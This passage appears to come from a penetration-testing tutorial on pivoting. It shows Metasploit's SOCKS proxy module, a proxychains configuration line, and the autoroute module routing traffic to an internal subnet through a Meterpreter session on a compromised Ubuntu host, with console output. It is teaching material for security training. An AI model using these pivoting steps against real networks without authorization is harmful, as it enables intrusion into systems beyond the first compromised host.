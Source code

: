     
    Auxiliary action:
    
       Name   Description
       ----   -----------
       Proxy  Run a SOCKS proxy server
    

#### Confirming Proxy Server is Running

    msf6 auxiliary(server/socks_proxy) > jobs
    
    Jobs
    ====
    
      Id  Name                           Payload  Payload opts
      --  ----                           -------  ------------
      0   Auxiliary: server/socks_proxy
    

After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.

#### Adding a Line to proxychains.conf if Needed

    socks4 	127.0.0.1 9050
    

Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

Finally, we need to tell our socks\_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute

    msf6 > use post/multi/manage/autoroute
    
    msf6 post(multi/manage/autoroute) > set SESSION 1
    SESSION => 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    SUBNET => 172.16.5.0
    msf6 post(multi/manage/autoroute) > run
    
    [!] SESSION may not be compatible with this module:
    [!]  * incompatible session platform: linux
    [*] Running module against 10.129.202.64
    [*] Searching for subnets to autoroute.
    [+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
    [+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
    [*] Post module execution completed
    

It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

    meterpreter > run autoroute -s 172.16.5.0/23
    
    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    [*] Adding a route to 172.16.5.0/255.255.254.0...
    [+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
    [*] Use the -p option to list all active routes
    